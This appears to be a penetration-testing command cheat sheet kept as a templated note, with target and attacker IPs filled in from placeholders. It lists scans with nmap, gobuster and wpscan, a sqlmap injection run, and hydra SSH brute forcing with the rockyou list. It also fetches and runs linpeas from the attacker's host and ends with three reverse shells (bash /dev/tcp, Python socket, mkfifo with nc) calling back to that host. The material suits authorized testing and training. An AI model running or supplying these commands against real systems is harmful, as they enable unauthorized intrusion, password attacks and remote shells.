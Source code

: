 ```php
nmap -A -p- <% tp.frontmatter.target_ip %>
```

```php
nmap -sC -sV -p- <% tp.frontmatter.target_ip %>
```

```php
nmap -sV -script=safe -p80 <% tp.frontmatter.target_ip %>
```
- Scripts need the `-sV` argument

```php
grep -r /usr/share/nmap/scripts/*.nse | grep -oP '".*?"' | sort -u
```

```php
dig <% tp.frontmatter.target_ip %> -t mx
```

```php
proxychains nmap -sT --top-ports=100 -Pn <% tp.frontmatter.target_ip %>
```

```php
gobuster dir -w /usr/share/seclists/SecLists-master/Discovery/ -u <% tp.frontmatter.target_ip %>
```

```php
gobuster vhost --append-domain --wordlist /usr/share/seclists/SecLists-master/Discovery/DNS/subdomains-top1million-20000.txt -u <% tp.frontmatter.target_ip %>
```

```php
wpscan --url http://<%tp.frontmatter.target_ip %>/webservices/wp/index.php --proxy 127.0.0.1:8080 --enumerate ap tt at
```

```php
sqlmap -u https://<%tp.frontmatter.target_ip %>/ –crawl=1
```

```php
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://<%tp.frontmatter.target_ip %>
```

```php
wget <%tp.frontmatter.my_ip %>/linpeas.sh
```

```php
enum4linux -h <%tp.frontmatter.my_ip %>
```

```php
curl http://<%tp.frontmatter.my_ip %>/linpeas.sh > linpeas.sh
chmod +x linpeas.sh
./linpeas.sh | tee linpeas.txt
```

```php
xfreerdp /u:yoshi /p:"Mushroom!" /v:<%tp.frontmatter.my_ip %>
```

```php

```

```php
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
- background `ctrl+z`
```php
stty -a 
```

```php
echo $TERM
```

```php
stty raw -echo 
```
- foreground `fg`
```php
stty rows <x> columns <y>
```

```php
export TERM=xterm
```

```php
bash -c "bash -i >& /dev/tcp/<%tp.frontmatter.my_ip %>/8443 0>&1"
```

```php
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<%tp.frontmatter.my_ip %>",8443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```php
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <%tp.frontmatter.my_ip %> 8443 >/tmp/f
```

```php

```

```php

```

```php

```

```php

```

```php

```

```php

```

```php

```

```php

```

```php

```

```php

```

```php

```

```php

```

```php

```

```php

```

```php

```

```php

```

